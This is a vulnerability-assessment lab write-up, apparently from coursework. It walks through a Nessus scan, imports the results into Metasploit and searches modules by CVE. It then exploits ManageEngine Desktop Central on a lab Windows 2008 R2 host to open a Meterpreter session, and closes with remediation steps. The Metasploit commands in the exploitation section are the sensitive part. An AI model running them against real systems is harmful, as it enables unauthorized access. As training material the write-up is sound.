# Nessus

**Classification:** Assessment Methodologies / Vulnerability Assessment<br>
**Targets:** 75.102.58.54 (Nessus scan) and 10.10.10.4 (VAGRANT-2008R2, exploitation)

## 1. Executive Summary

This lab covers the vulnerability-assessment workflow with **Nessus Essentials**: creating
and running a scan, exporting the report, and importing it into **Metasploit** with
`db_import`. From the imported findings we review vulnerabilities (MS17-010, MS12-020,
ManageEngine), look up matching exploit modules by CVE, and exploit a **ManageEngine
Desktop Central** RCE to obtain a Meterpreter session on the target.

## 2. Creating a Scan in Nessus

After installing Nessus Essentials, we click **New Scan** to see the available scan
templates (Host Discovery, Basic Network Scan, Credentialed, etc.).



Inside the scan configuration there are three main tabs: **Settings** (name, targets,
ports, scan type...), **Credentials** (SSH / Windows auth) and **Plugins**.



Once configured, the scan is saved to the My Scans page and can be launched on demand.



## 3. Exporting and Importing into Metasploit

When the scan finishes we export the results (Nessus / Nessus DB format).



We then import the `.nessus` report into the Metasploit database.

```bash
db_import Downloads/<report>_hnx9el.nessus
```



## 4. Reviewing the Findings

```bash
vulns
```

The imported vulnerabilities are listed (Open Port Re-check, CPE, OpenSSL Detection, SMTP
Cleartext Login Permitted, SSL certificate issues...).





The list can be filtered by port.

```bash
vulns -p 80
```



## 5. Mapping Vulnerabilities to Exploits

For critical findings we take the CVE and search Metasploit for matching modules. For
example, the host `10.10.10.4` reports **MS17-010 (EternalBlue)**.



```bash
search cve:2017 name:smb
```



It also reports **MS12-020** (RDP).



```bash
search MS12-020
```



## 6. Exploiting ManageEngine

Among the findings is an **excellent**-ranked exploit for **ManageEngine Desktop Central**,
which we use as the example.

```bash
search cve:2015 name:ManageEngine
```



We configure and run the module.

```bash
use exploit/windows/http/manageengine_connectionid_write
set RHOSTS 10.10.10.4
run
```

The module uploads and executes a JSP stager.



A Meterpreter session is opened as `NT AUTHORITY\LOCAL SERVICE` on `VAGRANT-2008R2`.

```bash
sessions
sessions 1
sysinfo
```



## 7. Remediation Recommendations

1. **Patch the reported vulnerabilities:** apply MS17-010, MS12-020 and update ManageEngine
   Desktop Central to a fixed version.
2. **Run authenticated scans** to find missing patches and misconfigurations that
   unauthenticated scans miss.
3. **Establish a remediation cycle:** prioritize findings by severity/CVSS and track them
   to closure with regular re-scans.
4. **Harden services** flagged by Nessus (disable SMTP cleartext login, fix SSL/TLS
   certificate issues, remove unnecessary services).
